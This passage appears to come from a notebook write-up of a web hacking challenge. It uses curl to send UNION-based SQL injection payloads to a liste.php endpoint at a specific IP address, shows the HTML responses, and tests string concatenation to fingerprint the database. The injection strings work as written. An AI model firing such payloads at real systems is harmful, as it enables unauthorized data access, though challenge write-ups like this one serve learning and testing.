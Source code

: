     <div id="contentliquid"><div id="content">unrecognized token: "';"

What about the next one?


```python
!curl "http://82.195.79.41/liste.php?id=NULL'%20UNION%20ALL%20SELECT%20'a','k';--#" 2> /dev/null | tail -n 20
```

    <div id="contentliquid"><div id="content"><ul><li><a href="/liste.php?id=a">k</a><ul></div></div>
            <div id="leftcolumn">
    	<ul>
    	<li><a href="http://82.195.79.41/index.php">Startseite</a></li>
    	<li><a href="http://82.195.79.41/liste.php">Todo-Liste</a></li>
    	<li><a href="http://82.195.79.41/restricted/index.php">Backend</a></li>
    	<li><a href="http://82.195.79.41/download.php">Downloads</a></li>
    	<li><a href="http://www.usd.de/impressum/" target="_blank">Impressum</a></li>
    	<li><a href="http://www.usd.de/datenschutz/" target="_blank">Datenschutz</a></li>
    	</ul>
            </div>
    
            <div id="footer">
                <p></p>
            </div>
        </div>
    </body>
    </html>
    
    


Have you noticed this line?

```
<div id="contentliquid"><div id="content"><ul><li><a href="/liste.php?id=a">k</a><ul></div></div>
```

**a** and **b** were successfully "merged" into the results. Now the biggest problem I had was the fingerprinting of the DB itself. OWASP has [sth](https://www.owasp.org/index.php/OWASP_Backend_Security_Project_DBMS_Fingerprint#Fingerprinting_through_SQL_Dialect_Injection) you can use in your tests. But the most useful thing is to test for *string concatenation* (nice article [here](http://digitizor.com/2009/03/27/sql-injection-2-fingerprinting/)). So I've tried several things:


```python
!curl "http://82.195.79.41/liste.php?id=NULL'%20UNION%20ALL%20SELECT%20CONCAT('a', 'b'),'k';--#" 2> /dev/null | grep "contentliquid"
```

    <div id="contentliquid"><div id="content">unrecognized token: "';"



```python
!curl "http://82.195.79.41/liste.php?id=NULL'%20UNION%20ALL%20SELECT%20'a'+'b','k';--#" 2> /dev/null | grep "contentliquid"
```

    <div id="contentliquid"><div id="content"><ul><li><a href="/liste.php?id=a">k</a><ul></div></div>
